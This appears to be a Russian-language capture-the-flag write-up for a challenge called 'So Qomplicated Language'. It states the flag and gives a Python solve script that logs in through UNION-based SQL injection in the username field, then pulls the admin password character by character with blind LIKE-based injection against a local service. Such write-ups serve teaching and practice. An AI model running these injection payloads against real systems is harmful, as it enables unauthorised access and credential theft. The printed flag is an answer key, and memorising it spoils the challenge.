

# Название: So Qomplicated Language
#### Флаг: **CTF{y0u_w1ll_n3v3r_l1ke_sql_aga1n}**
### ВЫДАТЬ УЧАСТНИКАМ sources.zip
## Описание
Мы слишком очень много всё переусложнили... в эту систему не смог пролезть даже хакер, взломавший нас, но он хорошо там наследил
### Хинты
* UNION?
* i LIKE %%%%% UNION и еще люблю очень много раз сравнивать символы (казалось бы, зачем?)
### Решение
Вход: Видим SQL-инъекцию в поле username, но password в sql не вставляется. Можем вернуть фейковый пароль через UNION.  
Получение флага: видим, что флаг находится в пароле юзера admin_[рандомная строка]. Получить можем его через LIKE 'admin%' (берёт строки, начинающиеся с admin, а админ по коду сервиса всего один).
Но вывода у нас нет. Поэтому кидаем результат от сравнения символов в список персонала и таким образом получаем обратную связь.  
Решение на python:
```python
import string

import requests

s = requests.Session()

s.post('http://127.0.0.1:6107/login', data={
    'username': """nonexistentuser' UNION SELECT "fakepassword" -- """,
    'password': 'fakepassword',
})

print('1. Логинимся, "подсовывая" свой пароль в SQL-транзакцию')
print('Получены cookies:')
print(s.cookies)
print()


def latest_resp():
    d = s.get('http://127.0.0.1:6107/')
    found = None
    for line in d.text.splitlines(keepends=False):
        if '<td>' in line:
            found = line
    found = found.replace('<td>', '').replace('</td>', '').replace(' ', '').replace('   ', '')
    return bool(int(found))


def send_request(r):
    s.post('http://127.0.0.1:6107/add', data={
        'name': r,
    })


print('2. Подбираем пароль по символу')


def one_step(src):
    base_query = """b' LIKE 'a' OR ((SELECT password FROM users WHERE username LIKE 'admin%') LIKE '[REPL]%')) --  """
    LETT = None
    for letter in string.ascii_letters + string.digits + r"""!"#$&'()*+,-./:;<=>?@[\]^`{|}~_""":  # все из string.punctuation кроме % (спецсимвол) и _ перенесли в конец
        query = base_query.replace('[REPL]', src + letter)
        send_request(query)
        if latest_resp():
            LETT = letter
            break
    return LETT


src0 = ""
while True:
    src0 += one_step(src0)
    print(src0)
```
Запустим решение:

